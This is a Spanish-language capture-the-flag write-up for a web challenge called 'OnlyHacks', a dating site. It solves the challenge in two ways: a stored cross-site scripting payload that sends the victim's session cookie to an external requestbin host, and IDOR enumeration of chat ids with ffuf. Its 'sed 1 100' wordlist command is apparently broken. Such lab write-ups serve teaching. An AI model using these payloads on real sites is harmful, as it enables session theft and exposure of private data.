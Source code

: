 ```yaml
---
title: "OnlyHacks"
date: "2025-02-20T17:00:00-05:00"
type: "challenges"
draft: false
tags: ["Web", "Insecure Direct Object Reference (IDOR)", "XSS"]
---
```


Al ingresar a la url tenemos la opcion de registrarnos y logearnos que es lo primero que vamos a hacer.

<a href="https://imgur.com/XA5fCKn"><img src="https://i.imgur.com/XA5fCKn.png" title="source: imgur.com" /></a>

Dentro podremos ver una web de citas en la que la unica persona interesante es Renata ya que nos dice que siempre esta conectada, por lo que le vamos a dar match y vamos a hablar con ella.

<a href="https://imgur.com/SPZKCYs"><img src="https://i.imgur.com/SPZKCYs.png" title="source: imgur.com" /></a>

En este punto hay dos formas de resolver la maquina una es haciendo un Cross-Site-Scripting yla otra es modifcando la url ya que podemos ver que cada chat tiene un id.

Vamos a mostrar la primera si tratamos de usar un titulo html en la conversacion con renata este respondera al contenido:

```markdown
<h1>Hi</h1>
```

<a href="https://imgur.com/xZtJ9UZ"><img src="https://i.imgur.com/xZtJ9UZ.png" title="source: imgur.com" /></a>

Vamos a tratar de consegir la cookie de su sesion con el siguiente comando:

```markdown
<script>document.location='http://requestbin.whapi.cloud/19bdo3d1?
c='+document.cookie</script>
```

Vamos a ir a esta pagina [http://requestbin.whapi.cloud/](http://requestbin.whapi.cloud/) crearemos una nueva request y remplazaremos la url en el comando, si hace click en el link y recargamos la pagina de la request tendremos lo siguiente:

<a href="https://imgur.com/KL2LC4b"><img src="https://i.imgur.com/KL2LC4b.png" title="source: imgur.com" /></a>

Remplazaremos esa cookie en el navegador usando inspeccionar y podremos ver los chats de renata junto con la flag.

<a href="https://imgur.com/gF6SYzC"><img src="https://i.imgur.com/gF6SYzC.png" title="source: imgur.com" /></a>

Ahora vamos con la segunda forma

Cuando entramos al chat de renata podemos ver como la url es:

```markdown
http://94.237.55.96:37246/chat/?rid=6
```

Si cambiamos el valor del seis podremos ver otros chats hay una forma de probar esto de manera automatica con ffuf para verificar que sea un IDOR

```bash
#Creamos el diccionario
sed 1 100 > id.txt

ffuf -w id.txt -u 'http://94.237.55.96:37246/chat/?rid=FUZZ' -H "Cookie: session=TUCOOKIE" -mc 200
```

Esto nos devolvio dos posibles chats pero uno es el nuestro por lo que si probamos con el otro tendremos la flag.

<a href="https://imgur.com/EA0H2hP"><img src="https://i.imgur.com/EA0H2hP.png" title="source: imgur.com" /></a>
